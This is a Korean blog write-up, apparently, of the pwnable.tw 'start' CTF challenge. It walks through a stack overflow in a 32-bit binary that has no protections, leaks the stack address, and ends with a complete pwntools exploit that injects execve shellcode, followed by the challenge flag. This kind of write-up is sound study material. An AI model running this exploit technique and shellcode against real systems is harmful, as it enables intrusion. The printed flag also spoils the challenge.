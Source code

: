 ```yaml
---
layout: post
title: "[pwnable.tw] start"
date: 2018-05-25 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## Start [100 pts]
### Just a start.
### `nc chall.pwnable.tw 10000`
### [start](https://pwnable.tw/static/chall/start)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/start/01.png)
{: refdef}

32bit고 보호기법은 안 걸려있네요!

{: refdef: style="text-align: center;"}
![disassemble](/img/pwnable.tw/start/02.png)
{: refdef}

IDA로 열어 보면 `_start`밖에 없는 간단한 프로그램 입니다.

int 0x80을 사용해 함수를 호출하는데

[이 사이트](https://syscalls.kernelgrok.com)를 보면 int 0x80에서 레지스터가 어떻게 사용되는지 알 수 있어요.

```c
char buf[14] = "Let's start the CTF:"

write(1, buf, 0x14);
read(1, buf, 0x3C);
```

대충 c언어로 바꿔보면 위처럼 나오네여

- - -
# 0x01. 공격 방법

자, 이제 생각해봅시다아아

딱 봐도 bof가 가능하겠네요!

음... NX가 안걸려있으니까 쉘코드를 사용할게요.

1. 스택 주소 구하기

2. 스택에 쉘코드 삽입

3. 해당 주소로 리턴

이 순서로 공격할게요.

- - -
# 0x02. 정보 수집

## 1. 스택 주소 구하기

```asm
push "Let's start the CTF:"
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h
add esp, 14h
retn
```

`read`는 끝나면 `add esp, 14h`로 스택을 정리해주네여

그럼 `read`가 끝나고 스택도 정리한 후에 다시 `write`를 실행시키면 정리된 스택이 출력되고 다시 그 부분부터 `read`가 또 실행될거에여

호다다닥 해봅시다.

```python
from pwn import *
context.log_level = "debug"

s = remote("localhost", 4444)

s.recv()

dummy = "A"*0x14

payload = dummy
payload += p32(0x08048087)

s.send(payload)
```

{: refdef: style="text-align: center;"}
![stack_leak](/img/pwnable.tw/start/03.png)
{: refdef}

누가봐도 스택처럼 생긴 `0xffae9020`이 바로 나와주네요!

혹시 모르니 gdb로 맞는지 확인해 봅시닷.

{: refdef: style="text-align: center;"}
![gdb_check](/img/pwnable.tw/start/04.png)
{: refdef}

- - -
# 0x03. 익스플로잇

24byte 쉘코드를 사용했습니다아아

```python
from pwn import *
context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10000

############################################

s = remote(HOST, PORT)

elf = ELF("./start")
#libc = ELF("./")
pause()

############################################

main_addr = 0x08048060
func_write = 0x08048087

shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
shell += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99"
shell += "\xb0\x0b\xcd\x80"

dummy = "A"*20

############################################

payload = dummy
payload += p32(func_write)

s.recvuntil("Let's start the CTF:")
s.send(payload)

stack_addr = u32(s.recv(4))
s.recv()
print "[*] stack_addr : " + hex(stack_addr)

payload = dummy
payload += p32(stack_addr + 0x14)
payload += shell

s.send(payload)

s.interactive()
```

### FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}